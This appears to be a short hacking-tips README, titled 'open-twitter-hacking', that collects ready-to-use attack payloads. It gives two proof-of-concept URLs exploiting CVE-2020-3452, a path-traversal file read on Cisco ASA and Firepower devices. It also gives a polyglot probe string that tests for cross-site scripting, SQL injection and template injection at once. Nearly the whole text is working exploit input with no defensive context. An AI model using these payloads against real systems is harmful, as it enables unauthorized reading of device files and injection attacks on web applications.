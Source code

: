 # open-twitter-hacking

## CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower
```
Here is POC of CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower.

For example to read "/+CSCOE+/portal_inc.lua" file.

https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```
```
POC #2: 
https://<domain>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
```
## Test SQLi + XSS + SSTI with the same payload use
```


'"><svg/onload=prompt(5);>{{1234*6543}}
```
